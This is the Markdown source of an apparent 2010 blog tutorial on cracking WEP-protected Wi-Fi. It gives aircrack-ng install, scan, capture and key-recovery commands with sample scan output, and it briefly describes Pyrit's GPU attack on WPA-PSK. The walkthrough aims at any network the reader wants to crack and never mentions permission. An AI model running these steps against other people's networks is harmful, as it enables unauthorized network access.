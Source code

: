 ```yaml
---
comments: true
date: 2010-04-03 17:29:24
layout: post
slug: hack-wireless-network
title: How to Hack a Wireless Network
wordpress_id: 22
categories:
- Cracking
tags:
- Aircrack-ng
- Debian
- Network Security
- Ubuntu
- WEP
- Wi-Fi
- WPA
---
```


[WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) was intended to provide comparable confidentiality to a traditional wired network (in particular it does not protect users of the network from each other, but from outsiders), hence the name WEP.

Despite the intention, several serious weaknesses were identified by [cryptanalysts](http://en.wikipedia.org/wiki/Cryptanalysis) over the last years. The severity of the weaknesses means that any WEP protected network can be cracked using the right software within two minutes or less.

WEP was superseded by [Wi-Fi Protected Access](http://en.wikipedia.org/wiki/Wi-Fi_Protected_Access) (also known as WPA) in 2003, and then by the full [IEEE 802.11i](http://en.wikipedia.org/wiki/IEEE_802.11i-2004) standard (also known as WPA2) in 2004. Despite the weaknesses, WEP provides a level of security that can deter casual snooping.

**Hack Versus Crack**

For your information - just to get the right jargon.

The Eric S. Raymonds [Jargon File](http://www.catb.org/jargon) contains a bunch of definitions of the term "[hacker](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29)", most having to do with technical adeptness and a delight in solving problems and overcoming limits. The basic difference between a hacker and a cracker is this: hackers build things, crackers break them.

**Howto Conduct The Actual Crack**

It's fairly easy to [crack](http://en.wikipedia.org/wiki/Password_cracking) a [WEP](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) encrypted [wireless network](http://en.wikipedia.org/wiki/Wi-Fi), because the [WEP encryption](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) has some serious flaws in its design, flaws that makes it easy and fast to [crack](http://en.wikipedia.org/wiki/Password_cracking) or hack.

Install [aircrack-ng](http://www.aircrack-ng.org/) - on Debian or Ubuntu by:

    
    sudo aptitude install aircrack-ng


Then start aircrack-ng to look for wireless networks:

    
    sudo airodump-ng eth1

Then notice the channel number of the wireless network you want to crack.

    CH  1 ][ Elapsed: 9 mins ][ 2012-08-19 18:35
     
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    
    70:71:BC:A6:FF:FF  -68      285      191    0   4  54e  WEP  WEP         wifi-0
    00:17:9A:F1:FF:FF  -77      599      104    0   6  54 . WEP  WEP         wifi-1
    4C:E6:76:C4:FF:FF  -38      926       60    0   2  54e  WPA2 CCMP   PSK  wifi-2
    C4:3D:C7:34:FF:FF  -62      476      397    0   8  54e  WPA  TKIP   PSK  wifi-3


Quit aircrack-ng and start it again with med specific channel number to collect packages faster:

    
    sudo airodump-ng -c 4 -w dump eth1


Then wait and let it collect about 500K IVS and the try the do the actual crack:

    
    sudo aircrack-ng -b 0a:0b:0c:0d:0e:0f dump-01.cap


The MAC after the -b option is the BSSID of the target and dump-01.cap the file containing the captured packets.

**Only WEP Encrypted Networks**

Keep in mind that this approach is only usable in relation to WEP encrypted wireless networks, and cannot be used to crack WPA and WPA2 encrypted networks.

However, there is a new project called [Pyrit](http://code.google.com/p/pyrit/),which is currently under it's way. Pyrit takes a step ahead in attacking WPA-PSK and WPA2-PSK, the protocol that today de-facto protects public [WIFI](http://en.wikipedia.org/wiki/Wi-Fi)-airspace. The project's goal is to estimate the real-world security provided by these protocols. Pyrit does not provide [binary](http://en.wikipedia.org/wiki/Binary_file) files or wordlists and does not encourage anyone to participate or engage in any harmful activity. This is a research project, not a cracking tool - keep that in mind ;-)

Pyrit's implementation allows to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time-tradeoff. The performance gain for real-world-attacks is in the range of three orders of magnitude which urges for re-consideration of the protocol's security. Exploiting the computational power of [GPUs](http://en.wikipedia.org/wiki/Graphics_processing_unit), this is currently by far the most powerful attack against one of the world's most used security-protocols.
